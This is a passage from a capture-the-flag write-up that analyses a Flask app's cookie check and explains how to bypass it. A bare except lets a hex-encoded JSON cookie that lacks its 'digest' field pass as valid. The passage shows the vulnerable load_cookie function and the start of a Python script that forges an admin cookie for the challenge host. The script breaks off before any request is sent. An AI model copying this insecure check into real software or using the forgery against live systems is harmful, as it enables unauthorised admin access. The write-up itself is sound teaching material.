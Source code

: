 Then, that cookie variable is turned to a JSON string and is turned to hexadecimal, creating the *auth* cookie which is passed in the request.

Now, we need to find where the cookie is detected as valid or not, to trick the server. In the *index* function, we can find that bit of code:
```python
    ok, cookie = load_cookie()
    if not ok:
        return abort(403)
```

This is exactly the part of the code that was responding with 403 errors earlier. The *ok* variable seems to be the one who decide if we can access the page or not, so let's take a look at where it is defined.
```python
def load_cookie():

    cookie = {}
    auth = request.cookies.get("auth")
    if auth:

        try:
            cookie = json.loads(binascii.unhexlify(auth).decode("utf8"))
            digest = cookie.pop("digest")

            if (
                digest
                != hashlib.sha512(
                    app.secret_key + bytes(json.dumps(cookie, sort_keys=True), "ascii")
                ).hexdigest()
            ):
                return False, {}
        except:
            pass

    return True, cookie
``` 
The answer can be found in the *load_cookie* function. First, this function checks if the *auth* cookie is set. If it's not set, the function returns that the request was ok but the cookie is empty, bringing us to the connection page. If it is set, the code continues in a try/except. The try statements seem to check if the digest value is valid using the *app.secret_key*. To do so, the server first unloads the cookie from the auth cookie. Then, it tries to take out the digest value and compares it with the same hashing process as to where it came from, to see if the cookie has been modified. How could we bypass this security?

In reality, we only need the first line from the try statement (to get a cookie that is not empty). If we could create an exception after it, the program would exit the try and go into that insecure except statement. It is insecure because, if an error is caused in the try statement, the program will exit the try/except and return that the cookie is valid. That's what we need to exploit. The easiest way to do that is to don't set the digest key-value pair in our auth cookie, thus when the server will try and load it, it will create an exception and validate our cookie, giving us the admin access.

## Python Solution
I decided to code the final program using the Python [requests](https://realpython.com/python-requests/) module. The final code looks like that:
```python 
import requests
import binascii
import json

url = "http://jh2i.com:50006"

cookie = {"user": "noxtal", "password": "anypass", "admin": "True"}
auth = binascii.hexlify(json.dumps(cookie).encode("utf8")).decode("utf8")
```